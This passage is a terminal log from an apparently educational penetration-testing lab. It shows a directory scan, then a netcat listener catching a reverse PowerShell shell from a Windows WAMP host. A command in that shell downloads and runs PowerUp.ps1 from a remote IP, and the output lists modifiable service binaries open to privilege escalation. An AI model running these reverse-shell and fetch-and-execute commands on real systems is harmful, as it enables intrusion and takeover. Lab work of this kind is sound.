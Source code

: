 prn                     [Status: 403, Size: 295, Words: 22, Lines: 11]
Index.php               [Status: 200, Size: 40, Words: 3, Lines: 3]
robots.txt              [Status: 200, Size: 72, Words: 5, Lines: 6]
prn.php                 [Status: 403, Size: 299, Words: 22, Lines: 11]
:: Progress: [9228/9228] :: Job [1/1] :: 3360 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
</pre>


<pre><font color="#5EBDAB">┌──(</font><font color="#277FFF"><b>aluno㉿aluno</b></font><font color="#5EBDAB">)-[</font><b>~</b><font color="#5EBDAB">]</font>
<font color="#5EBDAB">└─</font><font color="#277FFF"><b>$</b></font> <font color="#5EBDAB">nc</font> <font color="#9755B3">-lnvp</font> 10030                                          
Listening on 0.0.0.0 10030
Connection received on 192.168.90.80 49709
Windows PowerShell running as user jill on 101CIAAVL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\wamp\www\PHP\fileManager\users\U2&gt;IEX(New-Object Net.WebClient).DownloadString(&apos;http://192.168.80.109:6969/PowerUp.ps1&apos;); Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1384
ProcessId   : 5924
Name        : 5924
Check       : Process Token Privileges

ServiceName                     : wampapache
Path                            : &quot;c:\wamp\bin\apache\apache2.4.9\bin\httpd.exe
                                  &quot; -k runservice
ModifiableFile                  : C:\wamp\bin\apache\apache2.4.9\bin\httpd.exe
ModifiableFilePermissions       : {ReadAttributes, ReadControl, Execute/Travers
                                  e, WriteAttributes...}
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : .\jill
AbuseFunction                   : Install-ServiceBinary -Name &apos;wampapache&apos;
CanRestart                      : False
Name                            : wampapache
Check                           : Modifiable Service Files

ServiceName                     : wampmysqld
Path                            : c:\wamp\bin\mysql\mysql5.6.17\bin\mysqld.exe 
                                  wampmysqld
ModifiableFile                  : C:\wamp\bin\mysql\mysql5.6.17\bin
ModifiableFilePermissions       : {ReadAttributes, ReadControl, Execute/Travers
                                  e, WriteAttributes...}
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : .\jill
AbuseFunction                   : Install-ServiceBinary -Name &apos;wampmysqld&apos;
CanRestart                      : False
Name                            : wampmysqld
Check                           : Modifiable Service Files

ServiceName                     : wampmysqld
Path                            : c:\wamp\bin\mysql\mysql5.6.17\bin\mysqld.exe 
                                  wampmysqld
ModifiableFile                  : C:\wamp\bin\mysql\mysql5.6.17\bin
ModifiableFilePermissions       : {GenericWrite, Delete, GenericExecute, Generi
                                  cRead}
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : .\jill
AbuseFunction                   : Install-ServiceBinary -Name &apos;wampmysqld&apos;
CanRestart                      : False
Name                            : wampmysqld
Check                           : Modifiable Service Files
